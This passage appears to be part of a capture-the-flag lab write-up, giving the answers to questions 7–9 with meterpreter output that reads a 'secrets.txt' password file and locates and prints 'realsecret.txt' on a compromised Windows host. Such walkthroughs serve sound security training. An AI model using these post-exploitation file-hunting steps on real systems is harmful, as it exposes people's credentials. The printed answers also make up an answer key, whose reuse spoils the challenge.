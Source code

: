 &nbsp;

### Question 7

What is the Twitter password revealed in the "secrets.txt" file?

answer: KDSvbsw3849

```shell
meterpreter > shell
C:\Windows\system32>cd ../../
cd ../../

C:\>cd Program Files (x86)/Windows Multimedia Platform
cd Program Files (x86)/Windows Multimedia Platform

C:\Program Files (x86)\Windows Multimedia Platform>type secrets.txt
type secrets.txt
My Twitter password is KDSvbsw3849!
C:\Program Files (x86)\Windows Multimedia Platform> exit
meterpreter >

```

&nbsp;

### Question 8

Where is the "realsecret.txt" file located?

answer: c:\\inetpub\\wwwroot\\realsecret.txt

```shell
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > 
```

&nbsp;

### Question 9

What is the real secret?

answer: The Flash is the fastest man alive

```shell
meterpreter > cat c:/inetpub/wwwroot/realsecret.txt
The Flash is the fastest man alive
meterpreter > 
```